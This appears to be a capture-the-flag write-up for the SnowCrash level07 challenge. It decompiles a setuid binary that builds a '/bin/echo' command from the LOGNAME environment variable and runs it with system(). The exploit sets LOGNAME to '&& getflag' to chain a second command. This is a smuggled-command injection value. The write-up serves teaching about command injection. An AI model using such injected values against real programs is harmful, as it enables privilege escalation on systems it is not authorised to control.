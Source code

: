 We start by exploring the files and find an executable named `level07`

```
level07@SnowCrash:~$ ls
level07
```

Disassembling the binary in Ghidra shows the main function:

```
/* WARNING: Unknown calling convention */

int main(int argc,char **argv,char **envp)
{
  char *param2;
  int iVar1;
  char *buffer;
  gid_t gid;
  uid_t uid;
  char *local_1c;
  __gid_t local_18;
  __uid_t local_14;

  local_18 = getegid();
  local_14 = geteuid();
  setresgid(local_18,local_18,local_18);
  setresuid(local_14,local_14,local_14);
  local_1c = (char *)0x0;
  param2 = getenv("LOGNAME");
  asprintf(&local_1c,"/bin/echo %s ",param2);
  iVar1 = system(local_1c);
  return iVar1;
}
```

1. **Environment Variable `LOGNAME`**

   - The program retrieves the environment variable `LOGNAME` using `getenv("LOGNAME")`.
   - It then uses `asprintf` to construct a command string in the format `"/bin/echo <LOGNAME>"`.

2. **System Call Vulnerability**:
   - The constructed command string is executed with `system(local_1c)`.
   - Since `LOGNAME` is directly inserted into the command, this can be exploited by injecting shell commands within `LOGNAME` to execute arbitrary commands.

We exploit this vulnerability by setting `LOGNAME` to include `getflag` as part of the command injection.

1. **Setting the Exploit Command**:

   - We set `LOGNAME` to `&& getflag` to chain `getflag` with the `echo` command.

   `level07@SnowCrash:~$ export LOGNAME="&& getflag"`

2. **Executing the Exploit**:
   - Running `./level07` triggers the command injection in `system(local_1c)` and runs `getflag`.

The output is:

```
level07@SnowCrash:~$ ./level07
Check flag.Here is your token :
```

The `getflag` command executes successfully, outputting the token.

This completes the exploit for Level07.

